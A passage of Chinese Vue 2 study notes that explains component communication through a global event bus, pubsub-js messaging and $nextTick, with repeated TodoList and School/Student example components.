  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover {
  background-color: #ddd;
}
li:hover button {
  display: block;
}
</style>
```

```vue
//MyList.vue文件：
<template>
  <ul class="todo-main">
    <MyItem
      v-for="todoObj in todos"
      ::key="todoObj.id"
      :todo="todoObj"
      :checkTodo="checkTodo"
      :deleteTodo="deleteTodo"
    />
  </ul>
</template>
<script>
import MyItem from "./MyItem";
export default {
  name: "MyList",
  components: { MyItem },
  props: ["todos", "checkTodo", "deleteTodo"],
};
</script>
<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
          <MyHeader @addTodo="addTodo" />
          <MyList
            :todos="todos"
            :checkTodo="checkTodo"
            :deleteTodo="deleteTodo"
          />
          <MyFooter
            :todos="todos"
            @checkAllTodo="checkAllTodo"
            @clearAllTodo="clearAllTodo"
          />
        </div>
      </div>
    </div>
  </div>
</template>
<script>
// 引入student组件
import MyHeader from "./components/MyHeader";
import MyList from "./components/MyList";
import MyFooter from "./components/MyFooter";
export default {
  name: "App",
  components: { MyHeader, MyList, MyFooter },
  data: function () {
    return {
      // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem("todos")) || [],
    };
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.done = !todo.done;
        }
      });
    },
    // 删除一个todo
    deleteTodo: function (id) {
      this.todos = this.todos.filter((todo) => {
        return todo.id !== id;
      });
    },
    // 全选or取消全选
    checkAllTodo: function (done) {
      this.todos.forEach((todo) => {
        todo.done = done;
      });
    },
    // 清除所有已有完成的todo
    clearAllTodo: function () {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      });
    },
  },
  watch: {
    todos: {
      deep: true,
      handler: function (value) {
        localStorage.setItem("todos", JSON.stringify(value));
      },
    },
  },
};
</script>
<style>
/* base */
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

## 全局事件总线（GlobalEventBus）:

---

1. 一种组件间通信的方式，适用于**任意组件间通信**。

2. 安装全局事件总线：

   ```js
   new Vue({
   	......
   	beforeCreate( ){
   		Vue.prototype.$bus = this;	//安装全局事件总线，$bus就是当前应用的vm
   	},
   	......
   })
   ```

3. 使用事件总线：

   1. 接收数据：A 组件想接收数据，则在 A 组件中给$bus 绑定自定义事件，事件的**回调留在 A 组件自身**，其中`this.demo`要么配置在 methods 中，要么写箭头函数。

      ```
      methods:{
      	demo(data){......}
      }
      ......
      mounted( ){
      	this.$bus.$on('xxxx',this.demo);
      }
      ```

   2. 提供数据：

      ```
      this.$bus.$emit('xxxx'，数据);
      ```

4. 最好在 beforeDestroy 钩子中，用`$off`去解绑**当前组件所用到的**事件。

```vue
//School.vue文件：
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
  </div>
</template>
<script>
export default {
  name: "School",
  props: ["getSchoolName"],
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  mounted: function () {
    // console.log("School", this);
    this.$bus.$on("hello", (data) => {
      console.log("我是School组件，收到了数据", data);
    });
  },
  beforeDestroy() {
    this.$bus.$off("hello");
  },
};
</script>
<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

```vue
//Student.vue文件：
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <button @click="sendStudentName">把学生名给School组件</button>
  </div>
</template>
<script>
export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      sex: "男",
    };
  },
  mounted: function () {
    // console.log("Stundet", this.x);
  },
  methods: {
    sendStudentName: function () {
      this.$bus.$emit("hello", this.name);
    },
  },
};
</script>
<style scoped>
.student {
  background-color: pink;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div class="app">
    <h1>{{ msg }}</h1>
    <School />
    <Student />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
import School from "./components/School";
export default {
  name: "App",
  components: { Student, School },
  data: function () {
    return {
      msg: "你好呀！",
    };
  },
};
</script>
<style scoped>
.app {
  background-color: gray;
  padding: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;

new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this; //安装全局事件总线
  },
});
```

### TodoList\_事件总线：

```vue
//MyFooter.vue文件：
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>
<script>
export default {
  name: "MyFooter",
  props: ["todos"],
  computed: {
    total: function () {
      return this.todos.length;
    },
    // isAll: function () {
    //   return this.doneTotal === this.total && this.total > 0;
    // },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        // this.checkAllTodo(value);
        this.$emit("checkAllTodo", value);
      },
    },
    doneTotal: function () {
      // 第一种写法，但不是很完美
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) {
      //     i++;
      //   }
      // });
      // return i;
      // 第二种写法
      /*const x = this.todos.reduce((pre, current) => {
        return pre + (current.done ? 1 : 0);
      }, 0);*/
      // 第二种简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0);
    },
  },
  methods: {
    /*checkAll: function (event) {
      // console.log(event.target.checked);
      this.checkAllTodo(event.target.checked);
    },*/
    clearAll: function () {
      if (confirm("是否确认删除")) {
        this.$emit("clearAllTodo");
      }
    },
  },
};
</script>
<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

```vue
//MyHeader.vue文件：
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  data: function () {
    return {
      title: "",
    };
  },
  methods: {
    add: function (event) {
      // 校验数据
      if (!this.title.trim()) {
        return alert("输入不能为空");
      }
      // 将用户的输入包装成应该todo对象
      const todoObj = { id: nanoid(), title: this.title, done: false };
      // 通知App组件去添加一个todo对象
      this.$emit("addTodo", todoObj);
      // 清空输入
      this.title = "";
    },
  },
};
</script>
<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}
.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

```vue
//MyItem.vue文件：
<template>
  <li>
    <label>
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违法原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  // 声明接收todo
  props: ["todo"],
  methods: {
    // 勾选or取消勾选
    handleCheck: function (id) {
      // 通知App组件将对应的todo对象的done值取反
      // this.checkTodo(id);
      this.$bus.$emit("checkTodo", id);
    },
    // 删除
    handleDelete: function (id) {
      if (confirm("确实删除嘛？")) {
        // this.deleteTodo(id);
        this.$bus.$emit("deleteTodo", id);
      }
    },
  },
};
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}
li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover {
  background-color: #ddd;
}
li:hover button {
  display: block;
}
</style>
```

```vue
//MyList.vue文件：
<template>
  <ul class="todo-main">
    <MyItem v-for="todoObj in todos" ::key="todoObj.id" :todo="todoObj" />
  </ul>
</template>
<script>
import MyItem from "./MyItem";
export default {
  name: "MyList",
  components: { MyItem },
  // 声明接收App传递过来的数据
  props: ["todos"],
};
</script>
<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
          <MyHeader @addTodo="addTodo" />
          <MyList :todos="todos" />
          <MyFooter
            :todos="todos"
            @checkAllTodo="checkAllTodo"
            @clearAllTodo="clearAllTodo"
          />
        </div>
      </div>
    </div>
  </div>
</template>
<script>
// 引入student组件
import MyHeader from "./components/MyHeader";
import MyList from "./components/MyList";
import MyFooter from "./components/MyFooter";
export default {
  name: "App",
  components: { MyHeader, MyList, MyFooter },
  data: function () {
    return {
      // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem("todos")) || [],
    };
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.done = !todo.done;
        }
      });
    },
    // 删除一个todo
    deleteTodo: function (id) {
      this.todos = this.todos.filter((todo) => {
        return todo.id !== id;
      });
    },
    // 全选or取消全选
    checkAllTodo: function (done) {
      this.todos.forEach((todo) => {
        todo.done = done;
      });
    },
    // 清除所有已有完成的todo
    clearAllTodo: function () {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      });
    },
  },
  watch: {
    todos: {
      deep: true,
      handler: function (value) {
        localStorage.setItem("todos", JSON.stringify(value));
      },
    },
  },
  mounted() {
    this.$bus.$on("checkTodo", this.checkTodo);
    this.$bus.$on("deleteTodo", this.deleteTodo);
  },
  beforeDestroy() {
    this.$bus.$off("checkTodo");
    this.$bus.$off("deleteTodo");
  },
};
</script>
<style>
/* base */
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## 消息订阅与发布（pubsub）:

---

1. 一种组件间通信的方式，适用于**任意组件间通信**。

2. 使用步骤：

   1. 安装 pubsub：

      ```
      npm i pubsub-js
      ```

   2. 引入：

      ```
      import pubsub from 'pubsub-js'
      ```

   3. 接收数据：A 组件想接收数据，则在 A 组件中订阅消息，订阅的**回调留在 A 组件自身**,其中`this.demo`要么配置在`methods`中，要么写箭头函数。

      ```
      methods:{
      	demo(data){......}
      }
      ......
      mounted( ){
      	this.pid = pubsub.subscribe('xxx',this.demo); //订阅消息
      }
      ```

   4. 提供数据：

      ```
      pubsub.publish('xxx',数据);
      ```

   5. 最好在 beforeDertroy 钩子中，用`pubsub.unsubscribe(pid)`去**取消订阅**

      ```
      pubsub.unsubscribe(pid);
      ```

```vue
//School.vue文件：
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
  </div>
</template>
<script>
import pubsub from "pubsub-js";
export default {
  name: "School",
  props: ["getSchoolName"],
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  mounted: function () {
    // console.log("School", this);
    /* this.$bus.$on("hello", (data) => {
       console.log("我是School组件，收到了数据", data);
    });*/
    this.pubId = pubsub.subscribe("hello", (msgName, data) => {
      console.log(this);
      // console.log("有人发布了hello消息，hello消息的回调执行了", msgName, data);
    });
  },
  beforeDestroy() {
    // this.$bus.$off("hello");
    pubsub.unsubscribe(this.pubId);
  },
};
</script>
<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

```vue
//Student.vue文件：
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <button @click="sendStudentName">把学生名给School组件</button>
  </div>
</template>
<script>
import pubsub from "pubsub-js";
export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      sex: "男",
    };
  },
  mounted: function () {
    // console.log("Stundet", this.x);
  },
  methods: {
    sendStudentName: function () {
      // this.$bus.$emit("hello", this.name);
      pubsub.publish("hello", this.name);
    },
  },
};
</script>
<style scoped>
.student {
  background-color: pink;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div class="app">
    <h1>{{ msg }}</h1>
    <School />
    <Student />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
import School from "./components/School";
export default {
  name: "App",
  components: { Student, School },
  data: function () {
    return {
      msg: "你好呀！",
    };
  },
};
</script>
<style scoped>
.app {
  background-color: gray;
  padding: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;

new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

### TodoList_pubsub：

```vue
//MyFooter.vue文件：
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>
<script>
export default {
  name: "MyFooter",
  props: ["todos"],
  computed: {
    total: function () {
      return this.todos.length;
    },
    // isAll: function () {
    //   return this.doneTotal === this.total && this.total > 0;
    // },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        // this.checkAllTodo(value);
        this.$emit("checkAllTodo", value);
      },
    },
    doneTotal: function () {
      // 第一种写法，但不是很完美
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) {
      //     i++;
      //   }
      // });
      // return i;
      // 第二种写法
      /*const x = this.todos.reduce((pre, current) => {
        return pre + (current.done ? 1 : 0);
      }, 0);*/
      // 第二种简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0);
    },
  },
  methods: {
    /*checkAll: function (event) {
      // console.log(event.target.checked);
      this.checkAllTodo(event.target.checked);
    },*/
    clearAll: function () {
      if (confirm("是否确认删除")) {
        this.$emit("clearAllTodo");
      }
    },
  },
};
</script>
<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

```vue
//MyHeader.vue文件：
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  data: function () {
    return {
      title: "",
    };
  },
  methods: {
    add: function (event) {
      // 校验数据
      if (!this.title.trim()) {
        return alert("输入不能为空");
      }
      // 将用户的输入包装成应该todo对象
      const todoObj = { id: nanoid(), title: this.title, done: false };
      // 通知App组件去添加一个todo对象
      this.$emit("addTodo", todoObj);
      // 清空输入
      this.title = "";
    },
  },
};
</script>
<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}
.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

```vue
//MyItem.vue文件：
<template>
  <li>
    <label>
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违法原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
import pubsub from "pubsub-js";
export default {
  name: "MyItem",
  // 声明接收todo
  props: ["todo"],
  methods: {
    // 勾选or取消勾选
    handleCheck: function (id) {
      // 通知App组件将对应的todo对象的done值取反
      // this.checkTodo(id);
      this.$bus.$emit("checkTodo", id);
    },
    // 删除
    handleDelete: function (id) {
      if (confirm("确实删除嘛？")) {
        // this.deleteTodo(id);
        // this.$bus.$emit("deleteTodo", id);
        pubsub.publish("deleteTodo", id);
      }
    },
  },
};
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}
li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover {
  background-color: #ddd;
}
li:hover button {
  display: block;
}
</style>
```

```vue
//MyList.vue文件：
<template>
  <ul class="todo-main">
    <MyItem v-for="todoObj in todos" ::key="todoObj.id" :todo="todoObj" />
  </ul>
</template>
<script>
import MyItem from "./MyItem";
export default {
  name: "MyList",
  components: { MyItem },
  // 声明接收App传递过来的数据
  props: ["todos"],
};
</script>
<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
          <MyHeader @addTodo="addTodo" />
          <MyList :todos="todos" />
          <MyFooter
            :todos="todos"
            @checkAllTodo="checkAllTodo"
            @clearAllTodo="clearAllTodo"
          />
        </div>
      </div>
    </div>
  </div>
</template>
<script>
import pubsub from "pubsub-js";
import MyHeader from "./components/MyHeader";
import MyList from "./components/MyList";
import MyFooter from "./components/MyFooter";

export default {
  name: "App",
  components: { MyHeader, MyList, MyFooter },
  data: function () {
    return {
      // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem("todos")) || [],
    };
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.done = !todo.done;
        }
      });
    },
    // 删除一个todo
    deleteTodo: function (msgName, id) {
      this.todos = this.todos.filter((todo) => {
        return todo.id !== id;
      });
    },
    // 全选or取消全选
    checkAllTodo: function (done) {
      this.todos.forEach((todo) => {
        todo.done = done;
      });
    },
    // 清除所有已有完成的todo
    clearAllTodo: function () {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      });
    },
  },
  watch: {
    todos: {
      deep: true,
      handler: function (value) {
        localStorage.setItem("todos", JSON.stringify(value));
      },
    },
  },
  mounted() {
    this.$bus.$on("checkTodo", this.checkTodo);
    this.pubId = pubsub.subscribe("deleteTodo", this.deleteTodo);
  },
  beforeDestroy() {
    this.$bus.$off("checkTodo");
    pubsub.unsubscribe(pubId);
  },
};
</script>
<style>
/* base */
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this;
  },
});
```

## nextTick：

---

1. 语法：

   ```
   this.$nextTick(回调函数)
   ```

2. 作用：在下一次 DOM 更新结束后执行其指定的回调。

3. 用法：将回调延迟到下次 DOM 更新循环之后执行。在修改数据之后立即使用它，然后等待 DOM 更新。它跟全局方法 `Vue.nextTick` 一样，不同的是回调的 `this` 自动绑定到调用它的实例上。

4. 什么时候用：当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行。

### TodoList_nextTick：

```vue
//MyFooter.vue文件：
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>
<script>
export default {
  name: "MyFooter",
  props: ["todos"],
  computed: {
    total: function () {
      return this.todos.length;
    },
    // isAll: function () {
    //   return this.doneTotal === this.total && this.total > 0;
    // },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        // this.checkAllTodo(value);
        this.$emit("checkAllTodo", value);
      },
    },
    doneTotal: function () {
      // 第一种写法，但不是很完美
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) {
      //     i++;
      //   }
      // });
      // return i;
      // 第二种写法
      /*const x = this.todos.reduce((pre, current) => {
        return pre + (current.done ? 1 : 0);
      }, 0);*/
      // 第二种简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0);
    },
  },
  methods: {
    /*checkAll: function (event) {
      // console.log(event.target.checked);
      this.checkAllTodo(event.target.checked);
    },*/
    clearAll: function () {
      if (confirm("是否确认删除")) {
        this.$emit("clearAllTodo");
      }
    },
  },
};
</script>
<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

```vue
//MyHeader.vue文件：
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  data: function () {
    return {
      title: "",
    };
  },
  methods: {
    add: function (event) {
      // 校验数据
      if (!this.title.trim()) {
        return alert("输入不能为空");
      }
      // 将用户的输入包装成应该todo对象
      const todoObj = { id: nanoid(), title: this.title, done: false };
      // 通知App组件去添加一个todo对象
      this.$emit("addTodo", todoObj);
      // 清空输入
      this.title = "";
    },
  },
};
</script>
<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}
.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

```vue
//MyItem.vue文件：
<template>
  <li>
    <label>
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违法原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span v-show="!todo.isEdit">{{ todo.title }}</span>
      <input
        type="text"
        v-show="todo.isEdit"
        :value="todo.title"
        @blur="handleBlur(todo, $event)"
        ref="inputTitle"
      />
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
    <button
      v-show="!todo.isEdit"
      class="btn btn-edit"
      @click="handleEdit(todo)"
    >
      编辑
    </button>
  </li>
</template>

<script>
import pubsub from "pubsub-js";
export default {
  name: "MyItem",
  // 声明接收todo
  props: ["todo"],
  methods: {
    // 勾选or取消勾选
    handleCheck: function (id) {
      // 通知App组件将对应的todo对象的done值取反
      // this.checkTodo(id);
      this.$bus.$emit("checkTodo", id);
    },
    // 删除
    handleDelete: function (id) {
      if (confirm("确实删除嘛？")) {
        // this.deleteTodo(id);
        // this.$bus.$emit("deleteTodo", id);
        pubsub.publish("deleteTodo", id);
      }
    },
    // 编辑
    handleEdit: function (todo) {
      if (todo.hasOwnProperty("isEdit")) {
        todo.isEdit = true;
      } else {
        console.log("todo身上没有isEdit");
        this.$set(todo, "isEdit", true);
      }
      this.$nextTick(function () {
        this.$refs.inputTitle.focus();
      });
    },
    //失去焦点回调（真正执行修改逻辑）
    handleBlur: function (todo, event) {
      todo.isEdit = false;
      if (!event.target.value.trim()) {
        return alert("输入不能为空");
      }
      this.$bus.$emit("updateTodo", todo.id, event.target.value);
    },
  },
};
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}
li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover {
  background-color: #ddd;
}
li:hover button {
  display: block;
}
</style>
```

```vue
//MyList.vue文件：
<template>
  <ul class="todo-main">
    <MyItem v-for="todoObj in todos" ::key="todoObj.id" :todo="todoObj" />
  </ul>
</template>
<script>
import MyItem from "./MyItem";
export default {
  name: "MyList",
  components: { MyItem },
  // 声明接收App传递过来的数据
  props: ["todos"],
};
</script>
<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
          <MyHeader @addTodo="addTodo" />
          <MyList :todos="todos" />
          <MyFooter
            :todos="todos"
            @checkAllTodo="checkAllTodo"
            @clearAllTodo="clearAllTodo"
          />
        </div>
      </div>
    </div>
  </div>
</template>
<script>
import pubsub from "pubsub-js";
